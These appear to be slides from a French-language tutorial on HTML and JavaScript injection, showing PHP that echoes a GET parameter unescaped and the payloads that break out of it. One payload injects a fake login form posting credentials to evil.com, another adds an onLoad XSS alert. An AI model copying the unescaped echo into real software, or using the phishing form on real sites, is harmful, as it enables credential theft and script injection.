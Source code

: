 --------------------------------------------------------------------------------

## Injection - HTML

    !html
    <input type="text" name="search" value="<? echo $_GET['search']; ?>">

Entrez ceci :

    !html
     What?"><h1>Oups</h1><input type="checkbox

Et le résultat :

    !html
    <input type="text" name="search" value="What?">
    <h1>Oups</h1>
    <input type="checkbox">

--------------------------------------------------------------------------------

## Injection - HTML

Pas grave ? essayez :

    !html
    " ><div class="big-overlay"></form>
    <form method="POST" action="http://www.evil.com">
      <p class="secure">Please re-enter you credentials</p>
      <label>Login:</label>
        <input type="text">
      <label>Mot de passe:</label>
        <input type="password">
    </div>
    <foo "

Et vous avez un formulaire de login en popup, détourné vers un autre site.

--------------------------------------------------------------------------------

## Injection - Javascript

    !html
    <input type="text" name="search" value="<? echo $_GET['search']; ?>">

Entrez ceci :

    !html
     What?" onLoad="alert('xss');"><input type="checkbox

Et le résultat :

    !html
    <input type="text" name="search" value="What?"
     onLoad="alert('xss');">
    <input type="checkbox">
